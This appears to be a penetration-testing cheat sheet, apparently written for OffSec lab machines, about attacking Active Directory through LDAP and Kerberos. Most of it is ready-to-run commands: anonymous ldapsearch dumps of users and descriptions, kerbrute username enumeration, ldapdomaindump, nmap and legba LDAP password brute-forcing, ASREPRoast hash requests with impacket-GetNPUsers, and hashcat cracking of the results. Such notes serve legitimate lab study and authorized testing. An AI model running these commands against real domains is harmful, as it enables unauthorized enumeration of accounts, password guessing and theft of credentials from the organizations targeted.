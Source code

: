### Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract users:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName

Extract all info:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### User enumeration
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
### Brute-force
```
nmap --script ldap-brute -p 389 <IP>
legba ldap --target 127.0.0.1:389 --username admin --password @wordlists/passwords.txt --ldap-domain example.org --single-match
```
### ASREPRoast
>ASREPRoast is a security attack that exploits users who lack the Kerberos pre-authentication required attribute. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.
```
impacket-GetNPUsers nagoya-industries.com/'':'' -usersfile pass -request -dc-ip 192.168.242.21 -outputfile hashes.asreproast
impacket-GetNPUsers nagoya-industries.com/'':'' -usersfile pass -request -no-pass -dc-ip 192.168.242.21 -outputfile hashes.asreproast

hashcat -m 18200 -a 0 passwords_kerb.txt hashes.asreproast
```
### Querying User Data
```
impacket-GetADUsers nagoya-industries.com/'':'' -user pass -dc-ip 192.168.219.21
```
